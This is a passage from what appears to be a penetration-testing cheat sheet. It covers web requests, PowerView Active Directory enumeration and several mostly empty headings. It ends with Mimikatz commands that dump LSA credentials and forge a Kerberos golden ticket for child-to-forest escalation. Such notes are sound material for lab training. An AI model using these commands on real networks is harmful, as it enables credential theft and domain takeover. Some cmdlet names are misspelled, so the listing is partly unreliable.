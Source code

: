     Grab everything from website 
    curl -i -L 10.11.1.111

    Ignore TLS on https websites 
    curl --insecure https://10.10.10.10

<h3 id="powershell_web">Powershell</h3>

    Invoke-WebRequest http(s)://10.10.10.10
    Invoke-WebRequest -METHOD 'POST' http(s)://10.10.10.10

<h3 id="burp">Burpsuite</h3>

<h2 id="ad">Active Directory</h2>

<h3>Powershell basics</h3>


<h3>Domain Enumeration</h3>

<b>PowerView</b>

	Get-NetDomain
	Get-NetDomain -Domain powershell.local
	Get-DomainSID
	Get-ADDDomain
	Get-AddDomain -Identity powershell.local
	(Get-ADDomain).DomainSID.Value

	Get-NetDomainController
	Get-NetDomainController -Domain powershell.local
	Get-ADDomainController
	Get-ADDomainController -Discover -DomainName powershell.local

	Get-NetUser
	Get-NetUser -Domain powershell.local
	Get-NEtUser -UserName labuser
	Get-ADUser -Filter * -Properties *
	Get-ADUser -Server ps-dc.pwershell.local
	Get-ADUser -Identity labuser
	

<h3>Lateral Movement</h3>
<b>MimiKatz</b>

<h3>Domain Privelege Escalation</h3>

<h3>Persistence</h3>

<b>Golden Ticket</b>
<b>Silver Ticket</b>

<h3>Across Trusts</h3>

<b>Trust Tickets</b>
<b>krbtgt hash<b/>
Child to Forest Root 

	Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
	Invoke-Mimikatz -Command '"kerberos::gold /user:Administrator /domain:offensiveps.powershell.local /sid:S-1-5- /krbtgt:a9d1 /sids:s-1-5 /ticket:krb_tkt.kirbi"'
